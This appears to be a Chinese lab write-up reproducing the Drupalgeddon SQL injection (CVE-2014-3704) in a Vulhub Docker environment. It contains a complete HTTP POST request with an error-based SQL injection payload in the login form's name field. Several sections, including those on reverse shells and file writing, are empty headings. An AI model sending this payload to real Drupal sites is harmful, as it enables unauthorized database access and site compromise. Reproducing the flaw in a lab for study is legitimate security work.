




# Drupal < 7.32版本 _“Drupalgeddon” SQL注入漏洞(CVE-2014-3704)


| 说明     | 内容                                 |
| -------- | ------------------------------------ |
| 漏洞编号 | CVE-2014-3704                        |
| 漏洞名称 | Drupal    “Drupalgeddon” SQL注入漏洞 |
| 漏洞评级 |                                      |
| 影响范围 | Drupal 7.0~7.31版本                  |
| 漏洞描述 |                                      |
| 修复方案 |                                      |


### 1.1、漏洞描述

Drupal 是一款用量庞大的CMS，其`7.0~7.31版本`中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

### 1.2、漏洞等级

### 1.3、影响版本

Drupal  7.0~7.31版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/drupal/CVE-2014-3704

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到Drupal的安装页面，使用默认配置安装即可



其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`






#### 2、漏洞扫描

#### 3、漏洞验证

发送如下数据包：

```bash
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```



### 1.5、深度利用

#### 1、反弹Shell

#### 2、写入文件

### 1.6、修复建议